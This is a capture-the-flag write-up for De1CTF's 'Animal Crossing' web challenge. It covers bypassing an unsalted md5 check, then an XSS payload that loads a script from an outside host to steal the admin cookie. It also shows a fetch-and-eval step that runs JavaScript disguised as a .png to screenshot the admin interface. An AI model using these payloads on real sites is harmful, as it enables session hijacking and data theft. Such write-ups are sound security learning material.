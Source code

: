 The good thing (in this context, bad for others) about md5 is that it's a one-way hashing but there is no salting to the code value, it's just the hash. Therefore, a string put through md5 would always return the same md5 encoding. So I just needed to randomly generate a string, md5 it, then check the digest against the random one.

Well great, I have succesfully done so and reported my passport to an admin. With this extra step of generating a valid code, the rest of Animal Crossing is a general XSS attack. 

We want to report a URL that will grab the admin cookie when a user checks out our URL, and sends it to the server. Part of my payload looks like this:

```
data=base64DATAXXXXXXX'javascript:eval('var a=document.createElement(\'script\');a.src=\'https://ServerHere.xss.ht\';document.body.appendChild(a)')
```

And we retrieve the cookie, which has the flag:

``FLAG=De1CTF{I_l1k4_``

But this is just one half of the flag. Where's the other half? 

Eventually, De1CTF released a hint: "what is the admin doing?" 

Looking at the document shows hundreds of png images, of what looks like other people's passports. I guess, the other half of the flag is among them. But the hint got me thinking - obviously, the admin would have to be leafing through the screenshots but its not like the flag will just magically turn up in one of the images cause they forgot to hide their flag text file out of view. So unless I can control the screenshot, I doubt I'll be able to find the flag. 

The library '[html2canvas](https://html2canvas.hertzen.com/)' comes to mind - taking screenshots with javascript. If I pass a payload to the admin that takes a screenshot of their interface, will the flag be there?

The idea here is to upload some code using html2canvas. If we give it a .png extension the server won't complain, after which you can fetch your image back, whatever you called it, and evaluate it so it takes the screenshot and you can download it. Your code should import the html2canvas library, take a screenshot, then upload that screenshot to the server for you to fetch and download.

```js
fetch(`/static/images/WhateverYouNamedYourFile.png`).then(resp=>resp.text()).then(flag=>eval((flag) || '0 + 0'));

//0+0 check is my way of checking errors. If the fetch response evals to a 0 I did something wrong.
```

I create this and report it to the admin. When the admin visits the URL with the javascript payload (not shown here), it will take a screenshot of the admin's interface and send it back to me. I get the address and download it for the other half of the flag:

``cool_GamE}``

So the full flag would be: ``FLAG=De1CTF{I_l1k4_cool_GamE}``


This was definitely a challenge that stretched my capabilities of XSS attacks past grabbing cookies and pretending to be admin. The 2nd half of taking a screenshot of the admin's interface was unique and certainly not something I would've thought of immediately. All in all, I'm glad I participated in DE1CTF despite the difficulty levels of the problems I faced!

Jam


---

References
----
Feature Image by Sara Kurfeß on Unsplash